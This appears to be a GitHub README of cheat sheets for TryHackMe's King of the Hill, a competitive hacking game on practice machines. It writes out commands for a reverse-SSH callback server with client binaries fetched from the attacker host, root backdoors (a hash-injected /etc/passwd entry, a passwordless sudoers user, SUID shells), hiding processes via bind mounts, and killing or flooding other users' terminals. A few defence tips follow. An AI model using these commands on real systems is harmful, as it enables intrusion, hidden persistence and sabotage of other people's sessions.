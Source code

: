 # THM King of the Hill Guides

These are cheat sheets I put together during my stint playing TryHackMe's King of the Hill mode. It can be quite fun, though if the other players know the machine and you don't, then how well you do entirely depends on how much they let you do. Nevertheless I found *most* players were accommodating enough that I was able to fully enumerate every machine, and these kill sheets are derived from that alone (except for H1: Hard, which is er, really hard - needed a walkthrough for that one).

My recommendation to you if you are new? Try and enumerate yourself. Once root on a machine, use that access to run linpeas, check sudoers etc and find the other ways in. A lot of fun I had was just from find the nooks and crannies on each machine, rather than any competitive aspect.

## A Note on Reverse SSH

Most of my kill sheets were tailored to my hacking approach, which was to start a [Reverse SSH](https://github.com/NHAS/reverse_ssh) server on my machine via the following commands (update go, create ssh keys, setup server):

```
wget -q https://go.dev/dl/go1.18.linux-amd64.tar.gz && rm -rf /usr/local/go && tar -C /usr/local -xzf go1.18.linux-amd64.tar.gz && rm go1.18.linux-amd64.tar.gz
ssh-keygen -t ed25519 -P "" -f "/root/.ssh/id_ed25519" > /dev/null
git clone https://github.com/NHAS/reverse_ssh && cd reverse_ssh && git checkout unstable && RSSH_HOMESERVER=$(hostname -i):3232 make && cd bin/ && cp ~/.ssh/id_ed25519.pub authorized_keys && cp client* ~/ && ./server --external_address $(hostname -i):3232 :3232 &
```

(note the above is done as part of my [thm-setup.sh](../thm-setup.sh) script as well)

After setting up the server, I would set up a python webserver on port 1234 to made the client binaries available, and then pull and run these on various machines. So in a kill sheet, if you see a `LHOST:1234/client` set of instructions that is what it is doing.

What is the advantage of reverse_ssh? It gives an immediate fully stable shell on linux *AND* windows, communicates over its own channel so even if the SSH server on the machine is completely disabled it will still work, and doesn't rely on passwords, ssh keys that another user might delete etc. Very nice.

## General tips and tricks

- when you ssh into a machine (regular or via reverse_ssh), the argument `-T` will not create a /dev/pts/ file. This prevents you showing up in `who` or `pinky`, which can stop those assholes who like to kill shells or cat random data or nyan cat into your terminal
- any process can be hidden by mounting over it. e.g. if you have a bash process running, and you know its PID is 2385 for example, `mount -o bind /tmp /proc/2838` will hide it, meaning your process will not show when `ps aux` is run. note this can be easily seen by running `mount` as a super user.
- when root, if facing an adversarial opponent who is likely to close all major paths to root, create lots of ways of getting back:
  - creating more suid binaries, e.g. `cp /bin/sh /home/sh && chmod u+s /home/sh`
  - adding your public key to /root/.ssh/authorized_keys
  - changing the root password
  - running reverse_ssh binaries
  - adding new users to /etc/passwd, e.g. `echo 'user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root:/bin/bash' >> /etc/passwd` will create basically a second root user, with password `pass123`
  - creating a user who can sudo to root: `useradd aquinas && (echo -e "thisisatest\nthisisatest" | passwd aquinas) && (echo "aquinas ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers)`
- you can wipe other sessions with something like this: `/bin/ls /dev/pts/* | /usr/bin/cut -c 6- | /usr/bin/xargs -I T pkill -9 -t T`. Note this only works against people who *have* a pts, e.g. didn't use `-T`. And I suggest only using it after someone has tried to kill your session. Don't be a dick.
- if someone is being really annoying, cat `/dev/urandom > /dev/pts/[id] &` is the nuclear option: the stream of random data will likely ruin their entire terminal. It'll keep running until they give up, at which point you will get a file read/write error or something.

## King Persistence

Aside from being root and kicking other users off like a wanker, the true troll just focuses on controlling king.txt. Let them be root, let everyone be root! They still can't become king if they can't figure out how to update the file. My approach for this is to escalate based on what I'm facing, e.g. the following tiers:

1. just put your name in king.txt
2. make it immutable: `/usr/bin/chattr +i king.txt` on linux and `attrib +r king.txt` on windows
3. delete chattr (its allowed). on windows you can't delete attrib even as system, but you could use `attrib +s king.txt` to also make it a system file to further harden it
4. create a bash loop to keep yourself as king. this works: `while true; do (echo Aquinas > /root/king.txt); sleep 0.1; done 2>/dev/null &`. Note, dont put this in a file and run it - I *will* find your file and put my name in it, plus the whole command will show up under PS. Running straight in your terminal will likely only show sleep 0.1. sleep could even be omitted, but it has the advantage that if they use pspy64 to try and figure out whats going on they will see a wall of sleep commands.
5. drop the 'nuclear option': this is a binary I call [kingmaker](tools/kingmaker.c), which combines chattr plus setting the file content plus stealth to make it very hard to find - only one person I've played where it has come to this has managed to find and kill the process, props to him (flint)

There is dickery beyond this thats possible, i.e. doing something violent with LD_PRELOAD, but I've never seen the point.

Defense tips:

- despite the sleep wall thing I mentioned, [pspy64](https://github.com/DominicBreuker/pspy) is a good tool to see whats happening, it will often find sneaky binaries that are being run etc
- chattr gets deleted all the time; some people then pull on a copy of it from busybox; I've seen obfuscation of this by naming it all sorts of things. Remember it will usually have the same *size*, something like `find / -size 36464c 2>/dev/null` willt rack it down.
- in the same vein, why not be extra sneaky and just create your own! I wrote [mf.c](tools/mf.c), which performs the same function as chattr and is trivial to compile and copy across. You can even use it in a loop to keep king mutable: `while true; do (/mf /root/king.txt 0); sleep 0.1; done &` (or immutable, if you wish, via subbing `16` for `0`).

